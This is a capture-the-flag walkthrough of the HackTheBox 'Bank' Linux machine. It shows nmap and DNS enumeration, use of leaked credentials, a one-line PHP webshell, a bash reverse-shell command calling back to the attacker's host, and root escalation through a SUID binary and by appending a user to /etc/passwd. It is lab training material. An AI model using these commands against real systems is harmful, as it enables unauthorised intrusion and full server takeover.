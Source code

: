 
## ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.29
```

### 🔍 Targeted Script & Version Scan
```bash
nmap -p 22,53,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.29
```

### 🔍 UDP Scan (DNS)
```bash
nmap -p- -sU --min-rate 10000 -oA scans/nmap-alludp 10.10.10.29
```

---

## 🌐 DNS & VHost Enumeration

### 🔎 Zone Transfer to Discover Subdomains
```bash
dig axfr bank.htb @10.10.10.29
```

### 📝 Add to /etc/hosts
```
10.10.10.29 bank.htb chris.bank.htb ns.bank.htb www.bank.htb
```

### 🌐 Virtual Host Brute-Force
```bash
wfuzz -u http://10.10.10.29/ -H "Host: FUZZ.bank.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hh 11510
```

---

## 🧪 Web Enumeration [HTTP](HTTP.md)

### 🧱 Gobuster (PHP Extensions)
```bash
gobuster dir -u http://bank.htb \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php -t 50 -o scans/gobuster-bank.htb-root-medium-php
```

### 📂 Interesting Results
- `/balance-transfer/` → holds `.acc` files
- `/uploads/` → 403 Forbidden
- `/inc/` → contains internal PHP includes
- `/support.php` → file upload

---

## 🔓 Shell as `www-data`

### 📁 Analyze Balance-Transfer Files
```bash
curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | wc -l
curl http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
```
> Found one broken file with **plaintext creds**:  
> **Email**: chris@bank.htb  
> **Password**: `!##HTBB4nkP4ssw0rd!##`

### 🔐 Login via Web
> Log in to the portal using `chris / !##HTBB4nkP4ssw0rd!##`

---

## 🛠 Webshell Upload & Execution

### 🛡️ Filter Bypass – Debug Hint Reveals `.htb` Executable Extension

**Webshell**: `cmd.htb`
```php
<?php system($_REQUEST["cmd"]); ?>
```

**Execution**:
```bash
curl http://bank.htb/uploads/cmd.htb?cmd=id
```

### 🐚 Reverse Shell
Listener:
```bash
nc -lnvp 443
```

Payload:
```bash
curl http://bank.htb/uploads/cmd.htb \
--data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.41/443 0>&1"'
```

Shell Upgrade:
```bash
python -c 'import pty; pty.spawn("bash")'
# In local terminal:
stty raw -echo; fg
export TERM=screen
```

---

## 🔐 Privilege Escalation

### 🔍 SUID Binary Method #1 (Backdoor)
```bash
find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency  # Custom SUID root binary

/var/htb/bin/emergency
id && cat /root/root.txt
```

### 🔍 `/etc/passwd` Writable Method #2 (Manual Root User Injection)
```bash
# Create root-equivalent user
openssl passwd -1 0xdf
# Result: $1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0

echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:root:/root:/bin/bash' >> /etc/passwd
su - oxdf
```

---

## 🔍 Beyond Root

### 🔁 Improper Redirects
```php
// /inc/header.php
if(empty($_SESSION['username'])){
  header("location: login.php");
  return;  // ❌ Should be 'exit;' instead
}
```

### 🔍 SUID Analysis
```bash
md5sum /var/htb/bin/emergency
md5sum /bin/dash
# Identical → emergency is renamed dash
```